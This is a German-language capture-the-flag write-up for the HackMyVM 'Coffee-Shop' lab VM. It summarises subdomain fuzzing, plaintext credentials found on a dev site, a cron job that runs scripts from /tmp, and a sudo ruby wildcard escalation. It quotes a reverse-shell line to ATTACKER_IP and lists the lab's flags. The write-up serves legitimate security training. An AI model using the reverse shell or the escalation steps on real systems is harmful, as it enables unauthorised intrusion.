

# Coffee-Shop - HackMyVM (Easy)

## Übersicht

*   **VM:** Coffee-Shop
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=CoffeeShop)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2024-04-19
*   **Original-Writeup:** https://alientec1908.github.io/CoffeeShop_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Coffee-Shop" von HackMyVM (Schwierigkeitsgrad: Easy) bot einen vielschichtigen Angriffspfad. Die initiale Informationsbeschaffung erfolgte über die Enumeration einer öffentlich zugänglichen Entwickler-Subdomain (`dev.midnight.coffee`), die Klartext-Zugangsdaten preisgab. Mit diesen Credentials wurde SSH-Zugriff als Benutzer `tuna` erlangt. Die Privilegienerweiterung zu `shopadmin` erfolgte durch die Ausnutzung eines unsicheren Cronjobs, der beliebige `.sh`-Dateien aus `/tmp` als `root` (oder im Kontext des Skript-Eigentümers) ausführte. Der finale Schritt zu Root-Rechten wurde durch eine fehlkonfigurierte `sudo`-Regel erreicht, die es `shopadmin` erlaubte, beliebige Ruby-Skripte als `root` auszuführen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `nikto`
*   `curl`
*   `hydra`
*   `gobuster`
*   `wfuzz` (für Subdomain/VHost Fuzzing)
*   `dirb`
*   `ssh`
*   `find`
*   `rm`, `mkfifo`, `nc` (für Reverse Shells)
*   `msfconsole` (für Handler und Shell-to-Meterpreter)
*   `grep`
*   Standard Linux-Befehle (`ls`, `cd`, `ss`, `cat`, `echo`, `chmod`, `sudo`, `id`, `su`)
*   `mysql` (Client)
*   `getcap`
*   `ruby`

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Coffee-Shop" erfolgte in diesen Schritten:

1.  **Reconnaissance & Web Enumeration (Extern):**
    *   Ziel-IP (`192.168.2.107`) via `arp-scan` identifiziert und Hostnamen (`uni.hmv`, `midnight.coffee`, `dev.midnight.coffee`) in `/etc/hosts` eingetragen.
    *   `nmap` zeigte offene Ports 22 (SSH 8.9p1) und 80 (Apache 2.4.52). Die Webseite auf Port 80 (`uni.hmv`) war "Under Construction".
    *   `nikto` fand das Verzeichnis `/shop/`. Im Quellcode der Webseite wurde die E-Mail `shopadmin@midnight.coffee` entdeckt.
    *   Brute-Force-Versuche auf `/shop/login.php` für `shopadmin` blieben erfolglos.
    *   Virtual Host Fuzzing mit `wfuzz` auf `midnight.coffee` deckte die Subdomain `dev.midnight.coffee` auf.

2.  **Initial Access (via Dev-Subdomain & SSH):**
    *   Die Seite `http://dev.midnight.coffee` enthielt Klartext-Zugangsdaten für einen Entwickler-Login: `developer`:`developer`.
    *   Nach dem Login auf dieser Seite wurden weitere Klartext-Zugangsdaten für einen Server-Login angezeigt: `tuna`:`1L0v3_TuN4_Very_Much`.
    *   Erfolgreicher SSH-Login auf Port 22 als Benutzer `tuna` mit den gefundenen Credentials.

3.  **Privilege Escalation (tuna zu shopadmin via Cronjob):**
    *   Analyse der `/etc/crontab` als `tuna` zeigte einen Cronjob, der minütlich als `root` das Skript `/home/shopadmin/execute.sh` ausführte.
    *   Das Skript `/home/shopadmin/execute.sh` wiederum führte alle `.sh`-Dateien im Verzeichnis `/tmp` aus (`/bin/bash /tmp/*.sh`).
    *   Ein Reverse-Shell-Payload wurde in `/tmp/rev.sh` geschrieben und ausführbar gemacht: `echo 'bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1' > /tmp/rev.sh; chmod +x /tmp/rev.sh`.
    *   Der Cronjob führte das Skript aus und etablierte eine Reverse Shell zum Angreifer – überraschenderweise als Benutzer `shopadmin` (und nicht direkt als `root`, wie der Cronjob-Eintrag vermuten ließ).

4.  **Privilege Escalation (shopadmin zu root via sudo ruby):**
    *   `sudo -l` für `shopadmin` offenbarte die Regel: `(root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb`.
    *   Die Wildcard (`*`) erlaubte die Ausführung eines beliebigen Ruby-Skripts. Das Skript `/opt/shop.rb` selbst war harmlos.
    *   Ein eigenes Ruby-Skript (`/tmp/bash.rb`) wurde erstellt mit dem Inhalt `exec "/bin/bash"`.
    *   Mit dem Befehl `sudo -u root /usr/bin/ruby /tmp/bash.rb /opt/shop.rb` wurde das eigene Skript als `root` ausgeführt, was zu einer Root-Shell führte.
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen. (Die User-Flag wurde implizit übersprungen oder nicht explizit im Log erwähnt, aber der Pfad war klar auf Root-Eskalation ausgelegt).

## Wichtige Schwachstellen und Konzepte

*   **Informationslecks auf Entwicklungsseiten:** Preisgabe von Klartext-Zugangsdaten auf einer öffentlich zugänglichen Entwickler-Subdomain.
*   **Unsicherer Cronjob:** Ausführung von Skripten aus einem allgemein beschreibbaren Verzeichnis (`/tmp`) mit erhöhten Rechten.
*   **Fehlkonfigurierte `sudo`-Regel:** Erlaubte die Ausführung von `ruby` mit einer Wildcard, was das Ausführen beliebiger Ruby-Skripte als `root` ermöglichte.
*   **Klartext-Credentials in Webanwendungen/Dashboards.**
*   **Virtual Host Fuzzing:** Zur Entdeckung versteckter Subdomains.

## Flags

*   **User Flag:** (Im Log wird eine User-Flag `DR1NK1NG-C0FF33-4T-N1GHT` am Ende gezeigt, deren Fundort während des dokumentierten Pfades aber nicht explizit genannt wurde. Der Fokus lag auf der direkten Eskalation.)
*   **Root Flag (`/root/root.txt`):** `C4FF3331N-ADD1CCCTINNNN`

## Tags

`HackMyVM`, `Coffee-Shop`, `Easy`, `Web`, `Subdomain Enumeration`, `Hardcoded Credentials`, `Cronjob Exploitation`, `Sudo Privilege Escalation`, `Ruby`, `Linux`, `Apache`, `SSH`
